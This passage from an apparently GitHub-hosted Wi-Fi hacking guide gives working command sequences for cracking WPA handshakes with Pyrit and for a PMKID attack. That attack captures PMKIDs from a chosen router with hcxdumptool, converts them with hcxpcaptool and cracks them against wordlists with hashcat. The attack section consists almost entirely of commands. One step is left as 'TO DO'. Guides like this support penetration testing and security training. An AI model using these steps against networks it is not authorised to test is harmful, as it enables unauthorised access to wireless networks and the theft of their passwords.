 You can get wordlists from [here](https://github.com/kennyn510/wpa2-wordlists).

4. Option 2: Crack the handshake using Pyrit

```
pyrit -r $PCAP_FILE analyze
pyrit -r $PCAP_FILE -o $CLEAN_PCAP_FILE strip
pyrit -i $WORDLIST import_passwords
pyrit eval
pyrit batch
pyrit -r $CLEAN_PCAP_FILE attack_db
```

<br>

## <a name="42"></a>4.2. PMKID attack

You can use [this script](scripts/wpa/pmkid.sh) or follow these steps:

1. Install Hcxdumptool and Hcxtool (you can use this [script](scripts/wpa/pmkid_install.sh)).

2. Stop Network Manager

```bash
airmon-ng check kill
```


3a. If you want to attack all the networks 

```bash
TO DO
```


3b. If you want to attack a specific MAC address

- Create a text file ($FILTER_FILE) and add the MAC address without ":". You can use *sed* and redirect the output to a file:

```
echo $MAC | sed 's/://g' > $FILTER_FILE
```

- Capture PMKID

```bash
hcxdumptool -i $IFACE -o $PCAPNG_FILE --enable_status=1 --filterlist=$FILTER_FILE --filtermode=2
```

4. Create $HASH_FILE 

```bash
hcxpcaptool -z $HASH_FILE $PCAPNG_FILE
```
 
The structure of each line is: PMKID * ROUTER MAC * STATION * ESSID (check at: https://www.rapidtables.com/convert/number/hex-to-ascii.html) 

5. Crack it using Hashcat (option 16800)

```bash
hashcat -a 0 -m 16800 $HASH_FILE $WORDLIST --force
```
